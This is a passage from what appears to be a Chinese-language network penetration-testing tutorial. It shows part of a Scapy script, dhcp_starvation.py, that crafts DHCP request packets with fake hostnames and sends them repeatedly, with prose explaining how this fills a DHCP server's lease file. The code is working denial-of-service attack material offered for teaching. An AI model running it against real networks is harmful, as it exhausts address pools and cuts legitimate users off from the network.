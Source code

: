 +   使用从前面步骤获得的参数创建 DHCP 请求数据包如下：

```py
    print "Obtained IP ",obtained_ip
    print "DHCP server IP ",server_ip
    dhcp_request = eth1/ip1/udp1/bootp1/dhcp2
    dhcp_request[BOOTP].xid= 123456
    name='master'+str(i)

    i =i+1
    dhcp_request[DHCP].options.append(("requested_addr", obtained_ip))
    dhcp_request[DHCP].options.append(("server_id", server_ip))
    dhcp_request[DHCP].options.append(("hostname", name))
    dhcp_request[DHCP].options.append(("param_req_list",
    b'x01x1cx02x03x0fx06x77x0cx2cx2fx1ax79x2a'))
    dhcp_request[DHCP].options.append(("end"))
```

+   发送请求数据包并间隔`0.5`秒发送下一个数据包如下：

```py
    time.sleep(.5)
    sendp(dhcp_request)
```

代码名称为`dhcp_starvation.py`。代码的工作分为两部分。首先，攻击者机器发送发现数据包，然后 DHCP 服务器发送具有给定 IP 的 DHCP 提供数据包。在下一部分中，我们的代码提取给定的 IP 和服务器 IP，制作名为 DHCP 请求的新数据包，并将其发送到 DHCP 服务器。在运行程序之前，请检查 DHCP 服务器中的 DHCP 租约文件，该文件位于**`\var\lib\dhcpd\dhcpd.lease`**：

![](img/dc460ca4-3045-4bfc-a507-5483971ed578.jpg)

您可以看到文件是空的，这意味着没有分配 IP。运行程序后，文件应该被填满，如下面的屏幕截图所示：

![](img/756c460a-d41c-411b-843a-e5a277e7f81a.jpg)
